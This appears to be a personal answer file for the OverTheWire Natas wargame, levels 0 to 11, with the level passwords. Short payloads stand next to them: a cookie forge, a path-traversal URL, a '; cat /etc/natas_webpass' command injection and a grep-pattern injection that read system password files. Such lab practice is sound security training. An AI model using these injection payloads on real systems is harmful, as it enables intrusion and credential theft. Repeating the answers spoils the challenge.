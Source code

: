 # Level 0

# Level 0 → Level 1

Username: natas0
Password: natas0
URL: http://natas0.natas.labs.overthewire.org

<!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->

# Level 1 → Level 2

```html
<div id="content">
  You can find the password for the next level on this page, but rightclicking
  has been blocked!

  <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
</div>
```

# Level 2 → Level 3

```txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# Level 3 → Level 4

natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

# Level 4 → Level 5

PS C:\Users\jesus\projects\other\otw> & C:/Users/jesus/AppData/Local/Programs/Python/Python310/python.exe c:/Users/jesus/projects/other/otw/wargames/natas/natas05.py

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

# Level 5 → Level 6

document.cookie = "loggedin=1"

0RoJwHdSKWFTYR5WuiAewauSuNaBXned

# Level 6 → Level 7

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

# Level 7 → Level 8

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../etc/natas_webpass/natas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

# Level 8 → Level 9

PS C:\Users\jesus\projects\other\otw> & C:/Users/jesus/AppData/Local/Programs/Python/Python310/python.exe c:/Users/jesus/projects/other/otw/wargames/natas/natas08.py  
b'oubWYf2kBq'

oubWYf2kBq

ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

# Level 9 → Level 10

; cat /etc/natas_webpass/natas10

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

# Level 10 → Level 11

.\* /etc/natas_webpass/natas11

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

# Level 11 → Level 12

# Level 12 → Level 13

# Level 13 → Level 14

# Level 14 → Level 15

# Level 15 → Level 16

# Level 16 → Level 17

# Level 17 → Level 18

# Level 18 → Level 19

# Level 19 → Level 20

# Level 20 → Level 21

# Level 21 → Level 22

# Level 22 → Level 23

# Level 23 → Level 24

# Level 24 → Level 25

# Level 25 → Level 26

# Level 26 → Level 27

# Level 27 → Level 28

# Level 28 → Level 29

# Level 29 → Level 30

# Level 30 → Level 31

# Level 31 → Level 32

# Level 32 → Level 33

# Level 33 → Level 34
